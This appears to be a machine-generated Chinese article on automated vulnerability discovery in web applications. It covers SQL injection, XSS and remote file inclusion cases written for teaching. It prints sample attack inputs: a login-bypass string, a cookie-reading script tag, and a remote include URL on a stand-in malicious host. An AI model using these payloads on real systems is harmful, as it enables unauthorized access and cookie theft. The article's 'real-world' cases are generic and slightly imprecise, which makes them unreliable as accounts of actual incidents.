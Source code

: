 ### 自动化漏洞挖掘在Web安全中的案例分析

#### 引言
随着互联网的快速发展，Web应用程序的安全问题日益突出。自动化漏洞挖掘技术作为一种高效、快速发现安全漏洞的手段，逐渐成为Web安全领域的重要研究方向。本文将通过分析真实世界中的自动化漏洞挖掘案例和攻击实例，探讨其在Web安全中的应用和效果。

#### 1. 自动化漏洞挖掘技术概述
自动化漏洞挖掘技术主要利用计算机程序自动发现软件或系统中的安全漏洞。在Web安全领域，常见的自动化漏洞挖掘技术包括静态分析、动态分析、模糊测试等。这些技术通过模拟攻击者的行为，自动检测Web应用程序中的潜在漏洞，如SQL注入、跨站脚本（XSS）、文件包含漏洞等。

#### 2. 案例分析

##### 2.1 SQL注入漏洞挖掘
**案例背景：**
某电商网站在用户登录模块中存在SQL注入漏洞，攻击者可以通过构造恶意输入，绕过身份验证，获取管理员权限。

**自动化挖掘过程：**
1. **静态分析：** 使用静态分析工具扫描源代码，发现用户输入未经过滤直接拼接到SQL查询语句中。
2. **动态分析：** 通过自动化工具模拟用户登录，输入特殊字符（如单引号、分号等），观察系统响应。
3. **模糊测试：** 使用模糊测试工具生成大量随机输入，测试登录模块的健壮性。

**攻击实例：**
攻击者输入`admin' --`作为用户名，密码任意，成功绕过登录验证，获取管理员权限。

**结果与改进：**
通过自动化漏洞挖掘，发现并修复了SQL注入漏洞，增强了系统的安全性。

##### 2.2 跨站脚本（XSS）漏洞挖掘
**案例背景：**
某社交网站的用户评论功能存在XSS漏洞，攻击者可以在评论中插入恶意脚本，窃取用户Cookie。

**自动化挖掘过程：**
1. **静态分析：** 使用静态分析工具扫描前端代码，发现用户输入未经过滤直接插入到HTML页面中。
2. **动态分析：** 通过自动化工具模拟用户评论，输入包含恶意脚本的文本，观察页面渲染结果。
3. **模糊测试：** 使用模糊测试工具生成大量包含HTML标签和JavaScript代码的输入，测试评论功能的健壮性。

**攻击实例：**
攻击者在评论中输入`<script>alert(document.cookie)</script>`，成功在页面中执行恶意脚本，窃取用户Cookie。

**结果与改进：**
通过自动化漏洞挖掘，发现并修复了XSS漏洞，增强了系统的安全性。

##### 2.3 文件包含漏洞挖掘
**案例背景：**
某内容管理系统（CMS）的文件包含功能存在漏洞，攻击者可以通过构造恶意URL，包含并执行远程服务器上的恶意文件。

**自动化挖掘过程：**
1. **静态分析：** 使用静态分析工具扫描源代码，发现文件路径未经过滤直接拼接到包含语句中。
2. **动态分析：** 通过自动化工具模拟用户访问，输入包含远程文件路径的URL，观察系统响应。
3. **模糊测试：** 使用模糊测试工具生成大量包含远程文件路径的输入，测试文件包含功能的健壮性。

**攻击实例：**
攻击者输入`http://malicious-server.com/malicious.php`作为文件路径，成功包含并执行远程服务器上的恶意文件。

**结果与改进：**
通过自动化漏洞挖掘，发现并修复了文件包含漏洞，增强了系统的安全性。

#### 3. 自动化漏洞挖掘的挑战与未来方向

##### 3.1 挑战
1. **误报与漏报：** 自动化工具可能产生误报或漏报，需要人工验证和调整。
2. **复杂应用场景：** 对于复杂的Web应用程序，自动化工具可能难以覆盖所有场景。
3. **动态变化：** Web应用程序的频繁更新可能导致自动化工具失效。

##### 3.2 未来方向
1. **智能化：** 结合机器学习和人工智能技术，提高自动化工具的准确性和适应性。
2. **集成化：** 将自动化漏洞挖掘与持续集成/持续部署（CI/CD）流程结合，实现安全左移。
3. **社区合作：** 建立开源社区，共享漏洞挖掘工具和案例，共同提升Web安全水平。

#### 结论
自动化漏洞挖掘技术在Web安全中具有重要应用价值，能够高效、快速地发现潜在漏洞。通过分析真实世界中的案例，我们可以看到自动化工具在SQL注入、XSS、文件包含等漏洞挖掘中的显著效果。然而，自动化工具仍面临误报、漏报等挑战，未来需要结合智能化、集成化和社区合作等手段，进一步提升其应用效果。

（字数：3498）

---

*文档生成时间: 2025-03-17 11:54:11*

